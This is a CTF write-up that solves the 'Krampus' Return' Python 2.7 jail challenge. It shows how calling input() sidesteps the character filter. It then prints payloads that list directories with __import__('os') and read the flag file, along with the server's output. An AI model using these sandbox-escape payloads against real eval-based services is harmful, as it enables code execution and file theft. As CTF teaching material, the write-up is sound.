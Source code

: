 # Problem

![Krampus' Return](images/krampus_problem.png)

This problem was a reference to an earlier Krampus problem, a Python 2.7 jail https://ctftime.org/task/7359.

# Resources

- [Python 2.7 Builtins](https://docs.python.org/2.7/library/functions.html#built-in-functions)

# Solution

This was also a jail. It actually took me a while to realize that my commands weren't having effect because of the whimsical responses from the server:

```
$ nc challs.xmas.htsp.ro 13006
░ ▒ ▓ █
CONNECTION ESTABLISHED - PYTHON 2.
CONNECTION WILL BE CLOSED AFTER 5 MINUTES. BE WARY.

<Server>: Krampus stares at you. He has seen you before. Play nice.
<You>: hi krampus
<Server>: You tried to get Krampus' attention. Try something different.
<You>: HELLO
<Server>: You tried to get Krampus' attention. No response.
<You>: ...
<Server>: You tried to get Krampus' attention. He is busy.
<You>: ok
<Server>: Krampus has heard you. You made him curious. ░ ▒ ▓ █
<You>: oh?
<Server>: Krampus has now your attention. Be careful!
<You>: Hi!
<Golem>: *looks towards you*
```

Eventually I typed in a number and started piecing it together.

```
<You>: 2
<Krampus>: 2
<You>: 2+4
<Elf #113>: Yee, what are y'all doing?
<You>: dir()
<Krampus>: ['__builtins__', '__doc__', '__file__', '__name__', '__package__', 'inp']
<You>: inp
<Krampus>: inp
<You>: list(inp)
<Krampus>: ['l', 'i', 's', 't', '(', 'i', 'n', 'p', ')']
```

When you type in an invalid character, the server will have some Elf, Golem, Ice Dragon, or Krampus say something instead of executing your command. Disallowed characters include `'"_+.,`, but you can use parentheses to call functions and nest them. Finally, `inp` is a string that copies your input right before it is executed.  My first approach was to try to create a string just like last year's solutions were able to do, and perhaps even call `eval(inp)`, but it was hard to get too far:

```
<You>: next(iter(dir()))   
<Krampus>: __builtins__
```

I started going through [Python 2.7's builtin functions](https://docs.python.org/2.7/library/functions.html#built-in-functions) one by one to find something that could help me. Eventually, I tried `input()`:

```
<You>: input()
'a'
<Krampus>: a
```

! We're getting somewhere. Using `input()` enables us to type invalid characters into `stdin` and avoid the filtering logic. A little more fiddling gets us there:

```
<You>: input()
__import__('os').listdir('/')
<Krampus>: ['lib64', 'tmp', 'opt', 'lib', 'run', 'etc', 'dev', 'sbin', 'proc', 'home', 'mnt', 'srv', 'sys', 'bin', 'usr', 'media', 'root', 'var', 'boot', '.dockerenv', 'chall']
<You>: input()
__import__('os').listdir('/chall/')
<Krampus>: ['flag.txt', 'server.py', 'krampus.py']
<You>: input()
open('flag.txt').read()
<Server>: Senseless words.
<You>: input()
open('/chall/flag.txt').read()
<Krampus>: X-MAS{Th3_4ll_Mighty_pyth0n_b34t5_kr4mpu5_th1s_Xmas}
```

Flag: `X-MAS{Th3_4ll_Mighty_pyth0n_b34t5_kr4mpu5_th1s_Xmas}`
